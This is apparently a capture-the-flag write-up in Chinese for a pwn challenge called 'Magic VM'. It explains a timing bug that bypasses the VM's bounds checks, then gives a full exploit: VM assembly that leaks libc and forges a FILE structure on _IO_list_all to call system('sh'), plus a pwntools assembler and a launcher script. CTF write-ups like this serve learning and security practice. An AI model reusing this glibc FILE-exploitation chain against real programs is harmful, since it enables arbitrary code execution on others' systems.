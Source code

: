 # Magic VM 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.7|

## 解题思路

没去符号表的vm题，费了好大劲在黑灯开始时想通了怎么利用，然后来不及了

> 我在[这里](./MagicVMPsrc)会放逆好的伪代码，看起来清晰多了

这道题的漏洞在于绕过时序，从代码读入到实际写入，实际上需要3个周期，
而所有合法性检查是在`vm_id::run`中做的，那意味着，我们只要使数据变化慢于检测，
即可绕过，具体原理如图所示

![bypass](./assets/magicvm.png)

理解完了这个原理之后，思路就很清楚了：先获取libc和mmap的地址，然后在data段伪造FILE，
设置好apple的触发条件，最后把伪造的FILE挂到`_IO_list_all`下，等程序自然退出就可以拿shell

为了自动化生成这长长的脚本，我写了对应的汇编和汇编器附在文后

## Extra Bonus

1. 我们拿到的mmap段紧邻另一段，而在里面有libc，有自身所在的地址，这不是巧合，它是TLS段
2. `cout <<`也有"hook"可用，在这个libstdc++中，在执行输出时，会解析函数，即导入函数到got表中，
那么由于它没有开Full RELRO，所以我们还可以写got表来跳转任意代码，但前提是我们能拿到libstdc++的地址
3. 由于延迟赋值的特性（见上图），所以在`mov reg, imm`和`mov ds:[reg], reg`这样的语句中间必须有一个等待周期，
可以`nop`，或者先处理其他寄存器


## EXPLOIT

```asm
; exp.asm
inline:
    mov r0, 0x46e8
    mov r1, 0x4740
    mov r0, ds:[r0]             ; main_arena
    mov r1, ds:[r1]             ; my_vm.data + 0x0x4740
    sub r0, 0x21ac80            ; libc_base
    sub r1, 0x4740              ; my_vm.data

    mov r2, 0x0
    mov r3, 0x28
    mov ds:[r2], 0x3b68732020   ; data->_flags = '  sh;'
    mov ds:[r3], 0x1            ; data->_IO_write_ptr = 1

    mov r2, 0xa0
    mov r3, 0xe0
    mov ds:[r2], r1             ; data->_wide_data = data
    mov ds:[r3], r1             ; data->_wide_vtable = data

    mov r2, r0
    mov r3, 0x68
    add r2, 0x50d70
    nop
    mov ds:[r3], r2             ; data->doallocate = system

    mov r2, r0
    mov r3, 0xd8
    add r2, 0x2170c0
    nop
    mov ds:[r3], r2             ; data->_vtable = _IO_wfile_jumps

    add r0, 0x21b680            ; r0 = _IO_list_all
    nop
    sub r0, r1
    mov r2, 0x0
    mov r2, r0
    nop
    mov ds:[r2], r1             ; *_IO_list_all = data
    nop
    nop
```

```python
# assembler.py
from pwn import *
import re
def assemble(lines:list[str]) -> bytes:
    payload = b''
    pre = ' *'
    post = r'(?: *;.*)?'
    def wrap_match(restr:str, line:str) -> re.Match:
        return re.match(f'{pre}{restr}{post}', line)

    for i, line in enumerate(lines):
        if match := wrap_match(r'mov r(\d), (0x[0-9a-f]+)', line):
            # mov reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x05\x06' + p8(reg) + p64(imm)
        elif match := wrap_match(r'mov r(\d), ds:\[r(\d)\]', line):
            # mov reg, ds
            reg = int(match.group(1))
            ds = int(match.group(2))
            payload += b'\x05\x0e' + p8(reg) + p8(ds)
        elif match := wrap_match(r'mov ds:\[r(\d)\], (0x[0-9a-f]+)', line):
            # mov ds, imm
            ds = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x05\x07' + p8(ds) + p64(imm)
        elif match := wrap_match(r'mov ds:\[r(\d)\], r(\d)', line):
            # mov ds, reg
            ds = int(match.group(1))
            reg = int(match.group(2))
            payload += b'\x05\x0b' + p8(ds) + p8(reg)
        elif match := wrap_match(r'mov r(\d), r(\d)', line):
            # mov reg, reg
            reg1 = int(match.group(1))
            reg2 = int(match.group(2))
            payload += b'\x05\x0a' + p8(reg1) + p8(reg2)
        elif match := wrap_match(r'sub r(\d), r(\d)', line):
            # sub reg, reg
            reg1 = int(match.group(1))
            reg2 = int(match.group(2))
            payload += b'\x02\x0a' + p8(reg1) + p8(reg2)
        elif match := wrap_match(r'sub r(\d), (0x[0-9a-f]+)', line):
            # sub reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x02\x06' + p8(reg) + p64(imm)
        elif match := wrap_match(r'add r(\d), (0x[0-9a-f]+)', line):
            # sub reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x01\x06' + p8(reg) + p64(imm)
        elif match := wrap_match('nop', line):
            # nop
            payload += b'\x0b'
        else:
            debug(f'\'{line.strip()}\' @L#{i + 1} can not match')
    debug(f'generating payload {payload}')
    return payload

if __name__ == '__main__':
    import sys
    if len(sys.argv) < 2:
        print('Require file name!')
        exit(0)
    filename = sys.argv[1]
    with open(filename, 'r') as file:
        bytecode = assemble(file.readlines())
        print(bytecode)
```

```python
# vm.py
from pwn import *
from assembler import assemble
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './vm'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1c84)\nc')
    else:
        sh = remote('', 9999)
    elf = ELF(EXE)

    with open('exp.asm', 'r') as file:
        bytecode = assemble(file.readlines())
    sh.send(bytecode)

    sh.clean()
    sh.interactive()
```
